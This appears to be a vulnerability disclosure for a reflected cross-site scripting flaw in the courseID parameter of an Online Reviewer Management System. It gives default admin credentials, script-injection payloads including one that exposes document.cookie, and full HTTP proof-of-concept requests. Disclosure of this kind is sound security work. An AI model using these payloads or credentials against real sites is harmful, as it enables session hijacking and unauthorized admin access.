 # Online Reviewer Management System v1.0 by janobe has Cross-site scripting (reflected)

BUG_Author: crazychen123

Accessing admin accounts: Username: admin / Password: admin

Vulnerability File: reviewer_0/admins/assessments/course/course-update.php

Parameter "courseID" (GET), exists XSS vulnerability

Payload1:courseID=1"><script>alert(1111)</script>

#POC：
```
GET /reviewer_0/admins/assessments/course/course-update.php?courseID=1%22%3E%3Cscript%3Ealert(1111)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=8004tqeh90ds1l3vr4t60bq179
Connection: close
```

![image](https://github.com/hundanchen69/pic/blob/main/111.png)

Payload2:courseID=1"><script>alert(document.cookie)</script>

#POC：
```
GET /reviewer_0/admins/assessments/course/course-update.php?courseID=1%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=8004tqeh90ds1l3vr4t60bq179
Connection: close
```

![image](https://github.com/hundanchen69/pic/blob/main/cookie.png)
